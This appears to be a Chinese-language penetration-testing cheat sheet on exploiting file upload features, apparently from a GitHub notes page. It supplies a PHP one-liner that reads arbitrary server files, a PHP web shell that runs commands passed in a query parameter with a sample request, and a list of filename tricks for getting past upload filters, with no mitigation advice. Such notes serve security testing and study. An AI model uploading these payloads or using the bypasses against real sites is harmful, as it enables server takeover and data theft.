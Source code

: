 # 文件上传

图片上传处可能存在文件上传，可根据上传的图片得到上传文件所在路径

某些文件上传只校验 `Content-Type` 标头是否与预期的 MIME 类型匹配，可以伪造

```
Content-Type: image/jpeg
```

以下 PHP 单行代码可用于从服务器的文件系统读取任意文件：

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

上传后，发送对此恶意文件的请求将在响应中返回目标文件的内容。

更通用的 Web shell 可能如下所示：

```
<?php echo system($_GET['command']); ?>
```

该脚本使您能够通过查询参数传递任意系统命令，如下所示：

```
 GET /example/exploit.php?command=whoami HTTP/1.1
```

## 绕过

```
filename="shell.php"

filename="shell.php

filename=shell.php"

filename="shell.phhtml"

filename="shell.p
h
p"

filename="shell.php3"

filename="shell.php5"

filename="shell.php6"

filename="shell.php6";filename="shell.php6";

filename="xxxxxxxxxxxxxxxxxxxxxxxxxshell.php"

filename="shell.php::$DATA"(windows 专用)

filename="shell.pHP"

filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.jpg";filename="shell.php";

```
